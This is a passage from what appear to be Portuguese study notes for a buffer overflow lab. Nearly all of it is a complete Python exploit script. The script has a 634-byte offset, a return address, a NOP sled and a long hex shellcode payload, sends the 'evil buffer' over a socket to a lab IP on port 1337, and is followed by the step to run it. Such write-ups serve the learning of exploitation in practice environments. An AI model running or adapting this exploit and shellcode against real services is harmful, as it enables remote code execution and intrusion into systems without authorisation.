            "\x28\xa7\xe7\x2d\xef\xf3\xb7\x45\xc6\x7b\x5c\x95\xe7\xa9"
            "\xf3\xc5\x47\x02\xb4\xb5\x27\xf2\x5c\xdf\xa7\x2d\x7c\xe0"
            "\x6d\x46\x17\x1b\xe6\x63\xe3\x1d\xf0\x1b\xf1\x61\xdc\x20"
            "\x7c\x87\x76\xc7\x29\x10\xef\x7e\x70\xea\x8e\x7f\xae\x97"
            "\x91\xf4\x5d\x68\x5f\xfd\x28\x7a\x08\x0d\x67\x20\x9f\x12"
            "\x5d\x4c\x43\x80\x3a\x8c\x0a\xb9\x94\xdb\x5b\x0f\xed\x89"
            "\x71\x36\x47\xaf\x8b\xae\xa0\x6b\x50\x13\x2e\x72\x15\x2f"
            "\x14\x64\xe3\xb0\x10\xd0\xbb\xe6\xce\x8e\x7d\x51\xa1\x78"
            "\xd4\x0e\x6b\xec\xa1\x7c\xac\x6a\xae\xa8\x5a\x92\x1f\x05"
            "\x1b\xad\x90\xc1\xab\xd6\xcc\x71\x53\x0d\x55\x91\xb6\x87"
            "\xa0\x3a\x6f\x42\x09\x27\x90\xb9\x4e\x5e\x13\x4b\x2f\xa5"
            "\x0b\x3e\x2a\xe1\x8b\xd3\x46\x7a\x7e\xd3\xf5\x7b\xab\xd3"
            "\xf9\x83\x54")
            postfix = ""
            
            buffer = prefix + overflow + retn + padding + payload + postfix
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            
            try:
              s.connect((ip, port))
              print("Sending evil buffer...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
              print("Done!")
            except:
              print("Could not connect.")
            ```
            
    7. Adicionando os NOPs
        
        ```bash
        import socket
        
        ip = "10.10.22.151"
        port = 1337
        
        prefix = ""
        offset = 634
        overflow = "A" * offset
        retn = "\xaf\x11\x50\x62"
        padding = "\x90" * 16
        payload = ("\xfc\xbb\x1f\xa3\x4d\xdb\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
        "\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe3\x4b\xcf"
        "\xdb\x1b\x8c\xb0\x52\xfe\xbd\xf0\x01\x8b\xee\xc0\x42\xd9"
        "\x02\xaa\x07\xc9\x91\xde\x8f\xfe\x12\x54\xf6\x31\xa2\xc5"
        "\xca\x50\x20\x14\x1f\xb2\x19\xd7\x52\xb3\x5e\x0a\x9e\xe1"
        "\x37\x40\x0d\x15\x33\x1c\x8e\x9e\x0f\xb0\x96\x43\xc7\xb3"
        "\xb7\xd2\x53\xea\x17\xd5\xb0\x86\x11\xcd\xd5\xa3\xe8\x66"
        "\x2d\x5f\xeb\xae\x7f\xa0\x40\x8f\x4f\x53\x98\xc8\x68\x8c"
        "\xef\x20\x8b\x31\xe8\xf7\xf1\xed\x7d\xe3\x52\x65\x25\xcf"
        "\x63\xaa\xb0\x84\x68\x07\xb6\xc2\x6c\x96\x1b\x79\x88\x13"
        "\x9a\xad\x18\x67\xb9\x69\x40\x33\xa0\x28\x2c\x92\xdd\x2a"
        "\x8f\x4b\x78\x21\x22\x9f\xf1\x68\x2b\x6c\x38\x92\xab\xfa"
        "\x4b\xe1\x99\xa5\xe7\x6d\x92\x2e\x2e\x6a\xd5\x04\x96\xe4"
        "\x28\xa7\xe7\x2d\xef\xf3\xb7\x45\xc6\x7b\x5c\x95\xe7\xa9"
        "\xf3\xc5\x47\x02\xb4\xb5\x27\xf2\x5c\xdf\xa7\x2d\x7c\xe0"
        "\x6d\x46\x17\x1b\xe6\x63\xe3\x1d\xf0\x1b\xf1\x61\xdc\x20"
        "\x7c\x87\x76\xc7\x29\x10\xef\x7e\x70\xea\x8e\x7f\xae\x97"
        "\x91\xf4\x5d\x68\x5f\xfd\x28\x7a\x08\x0d\x67\x20\x9f\x12"
        "\x5d\x4c\x43\x80\x3a\x8c\x0a\xb9\x94\xdb\x5b\x0f\xed\x89"
        "\x71\x36\x47\xaf\x8b\xae\xa0\x6b\x50\x13\x2e\x72\x15\x2f"
        "\x14\x64\xe3\xb0\x10\xd0\xbb\xe6\xce\x8e\x7d\x51\xa1\x78"
        "\xd4\x0e\x6b\xec\xa1\x7c\xac\x6a\xae\xa8\x5a\x92\x1f\x05"
        "\x1b\xad\x90\xc1\xab\xd6\xcc\x71\x53\x0d\x55\x91\xb6\x87"
        "\xa0\x3a\x6f\x42\x09\x27\x90\xb9\x4e\x5e\x13\x4b\x2f\xa5"
        "\x0b\x3e\x2a\xe1\x8b\xd3\x46\x7a\x7e\xd3\xf5\x7b\xab\xd3"
        "\xf9\x83\x54")
        postfix = ""
        
        buffer = prefix + overflow + retn + padding + payload + postfix
        
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        
        try:
          s.connect((ip, port))
          print("Sending evil buffer...")
          s.send(bytes(buffer + "\r\n", "latin-1"))
          print("Done!")
        except:
          print("Could not connect.")
        ```
        
    8. Agora apenas execute o exploit
